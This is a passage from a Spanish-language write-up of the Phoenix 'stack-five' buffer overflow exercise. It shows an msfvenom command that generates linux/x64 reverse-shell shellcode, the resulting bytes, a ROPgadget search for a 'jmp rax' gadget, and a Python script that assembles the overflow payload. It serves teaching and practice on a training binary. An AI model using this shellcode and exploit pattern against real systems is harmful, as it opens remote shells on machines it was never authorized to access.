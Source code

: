 Ya que tenemos el offset vamos a generar un shellcode con el comando `msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 --platform linux -a x64 -f python --var-name shellcode` para tener una reverse shell en la máquina 

```csharp
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/5_stack-five]
└─# msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 --platform linux -a x64 -f python --var-name shellcode
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of python file: 432 bytes
shellcode =  b""
shellcode += b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f"
shellcode += b"\x05\x48\x97\x48\xb9\x02\x00\x11\x5c\x7f\x00"
shellcode += b"\x00\x01\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a"
shellcode += b"\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21"
shellcode += b"\x58\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb"
shellcode += b"\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89"
shellcode += b"\xe7\x52\x57\x48\x89\xe6\x0f\x05"
```

Una vez identificado el **offset** y generado el **shellcode**, necesitamos una forma de transferir el flujo de ejecución hacia nuestra carga maliciosa en memoria. Esto se logra utilizando una instrucción existente en el binario que salte a la dirección donde está nuestro shellcode. necesitamos un **gadget** (una instrucción ya existente en el binario que te ayude a saltar al registro donde tienes la dirección de tu shellcode.) podemos buscar una con el comando `ROPgadget --binary stack-five --only "jmp"` y vemos que contamos con `0x0000000000400481 : jmp rax` 

**jmp rax** lo que hace es decirle a la CPU: “Ve a la dirección que contiene el registro RAX y ejecuta lo que esté ahí. Si conseguimos que **RAX** apunte a nuestro buffer (donde está el shellcode), al ejecutar este gadget el flujo de ejecución se transfiere directamente a nuestra carga maliciosa.

```csharp
user@phoenix-amd64:/opt/phoenix/amd64$ ROPgadget --binary stack-five --only "jmp"
Gadgets information
============================================================
0x0000000000400481 : jmp rax

Unique gadgets found: 1
```

ya con estos datos podemos crear nuestro exploit para realizar la explotación de este reto, nuestro exploit quedaría de esta manera 

```csharp
#!/usr/bin/env python3

# Total bytes hasta la dirección de retorno
offset = 136

# Shellcode de reverse shell generado con msfvenom
shellcode =  b""
shellcode += b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f"
shellcode += b"\x05\x48\x97\x48\xb9\x02\x00\x11\x5c\x7f\x00"
shellcode += b"\x00\x01\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a"
shellcode += b"\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21"
shellcode += b"\x58\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb"
shellcode += b"\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89"
shellcode += b"\xe7\x52\x57\x48\x89\xe6\x0f\x05"

# Dirección de retorno (jmp eax)
ret = b"\x81\x04\x40\x00\x00\x00\x00\x00"

# Construcción del payload
payload = shellcode
payload += b"A" * (offset - len(shellcode))
payload += ret
```